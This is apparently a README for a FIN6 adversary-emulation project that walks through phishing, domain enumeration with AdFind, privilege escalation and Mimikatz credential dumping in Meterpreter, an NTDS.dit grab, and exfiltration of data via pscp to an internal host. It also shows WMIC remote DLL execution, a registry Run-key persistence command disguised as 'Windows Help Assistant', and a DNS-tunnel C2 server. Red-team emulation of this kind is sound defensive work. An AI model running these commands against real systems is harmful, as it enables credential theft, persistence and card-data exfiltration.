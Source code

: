 # FIN6 Adversary Emulation Project

This project emulates the tactics, techniques, and procedures (TTPs) of the FIN6 advanced persistent threat (APT) group. FIN6 is known for targeting payment card data in point-of-sale (POS) environments, leveraging techniques such as memory scraping, credential dumping, and exfiltration via DNS tunneling. This emulation focuses on phases 1 and 2 of the FIN6 attack.

![Op_Flow](Documentation/OpFlow_Diagram.png)

*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*

---

Phase 1 Start by Phishing email which downloads a Word doc file after opening it. a PowerShell metasploit payload runs after the Discovery of Users, Computers, Groups, OU, and other parts of the domain after that, the attacker compresses and extracts all that data using SSH through that attacker doing Privilege Escalation using various methods.

Phase 2: had 3 Scenarios

```
Scenario 1 - Attacking Point of Sale (POS) Systems

Scenario 2 - Attacking E-Commerce Platforms

Scenario 3 - Deploying Ransomware
```

*Sourced from Center for Threat-Informed Defense’s analysis of FIN6.*



## Overview

The primary goal of this emulation is to provide a realistic representation of FIN6 TTPs in a controlled environment for educational and research purposes. This project includes:
- An infected Word document simulating a phishing payload.
- The `adfind.exe` tool for Active Directory enumeration.
- A C++ memory scraper targeting sensitive card data.
- A custom C2 server receiving exfiltrated data via DNS tunneling.


## Phases Breakdown

### Phase 1

![outline_phase1-1](Documentation/phase1-1.png)
![outline_phase1-1](Documentation/phase1-2.png)

#### Initial Access

Spearphishing Attachment: T1566.001 


#### Execution

Command and Scripting Interpreter: PowerShell: T1059.001

FIN6 has targeted victims with e-mails containing malicious attachments Craft a malicious Word document with embedded macros that execute the Metasploit PowerShell payload upon opening.

[infectd_word_doc](Phase1/infected_word_doc.doc)

---

![infectd_word_doc](Phase1/Screenshots/1.png)


#### Discovery

FIN6 USED AdFind.exe to Find all person objects and output the results to a text file, Identify all computer objects and output the results to a text file, Enumerate all Organizational Units (OUs) in the domain of the user running the command and output the results to a text file, Performs a full forest search and dumps trust objects to a text file, List subnets and output the results to a text file, List groups and output the results to a text file. 


```cmd
adfind.exe -f (objectcategory=person) > ad_users.txt             # Account Discovery: Domain Account (T1087.002)
adfind.exe -f (objectcategory=computer) > ad_computers.txt       # Remote System Discovery (T1018) 
adfind.exe -f (objectcategory=organizationalUnit) > ad_ous.txt   # Domain Trust Discovery (T1482) 
adfind.exe -gcb -sc trustdmp > ad_trustdmp.txt                   # Domain Trust Discovery (T1482)
adfind.exe -subnets -f (objectcategory=subnet) > ad_subnets.txt  # System Network Configuration Discovery (T1016)
adfind.exe -f (objectcategory=group) > ad_group.txt              # Permission Groups Discovery: Domain Groups (T1069.002)
```

#### Privilege Escalation

FIN6 used various methods to Escalate their Privilege

FIN6 was reported to have escalated privileges to SYSTEM by using the named-pipe impersonation technique featured in the Metasploit framework
Access Token Manipulation: (T1134)

```sh
getsystem -t 1
```

FIN6 was reported to use Mimikatz to make OS Credential Dumping. We Will use  Mimikatz from a Meterpreter session.
OS Credential Dumping: LSASS Memory: T1003.001

```sh
load kiwi
creds_all
```

![Privilege Escalation 1,2](Phase1/Screenshots/2.png)

FIN6 was reported to  use Metasploit's psexec_ntdsgrab module. This module authenticates to the domain controller, creates a volume shadow copy of the system drive, and downloads copies of the NTDS.dit and SYSTEM hive. 
OS Credential Dumping: NTDS: T1003.003 

![Privilege Escalation 3](Phase1/Screenshots/3.png)

#### Collection

FIN6 was reported to  use 7zip (7.exe), on the designated staging system, to compress the text files resulting from internal discovery.
Archive Collected Data: Archive via Utility: T1560.001 

![Privilege Escalation 3](Phase1/Screenshots/4.png)

#### Exfiltration 

FIN6 was reported to exfiltrate the 7Zip files resulting from the Discovery Phase via SSH
Exfiltration Over Web Service: Exfiltration to Cloud Storage: T1567.002

```sh
pscp.exe -P {port} {path_on_windows}\ad.7z root@192.168.1.13:/temp/
```

---

### Phase2: Scenario 1 - Attacking Point of Sale (POS) Systems

![outline_phase2](Documentation/phase2.png)

#### Lateral Movement

Remote Services: Remote Desktop Protocol T1021.001

```
I used rdesktop tool you can use any other tool you like.
```

#### Execution

Windows Management Instrumentation T1047

```
wmic /node:"192.168.1.62" process call create "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run"
```

#### Persistence

Registry Run Keys T1547.001

```
"C:\Windows\System32\reg.exe" ADD "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "Windows Help Assistant" /t REG_SZ /d "rundll32.exe c:\windows\User\Administrator\Assistant32.dll,run" /f

```

#### Exfiltration

PoS data exfiltration over DNS tunnel T1048.003

```
to do that run on your attacking machine:
python3 dns_c2_server.py
```

![c2_server_and_rdp](Phase2/Screenshots/1.png)

## Credits

- This emulation project is inspired by open-source intelligence on the FIN6 APT group.
- Tools and techniques align with the MITRE ATT&CK framework.

---
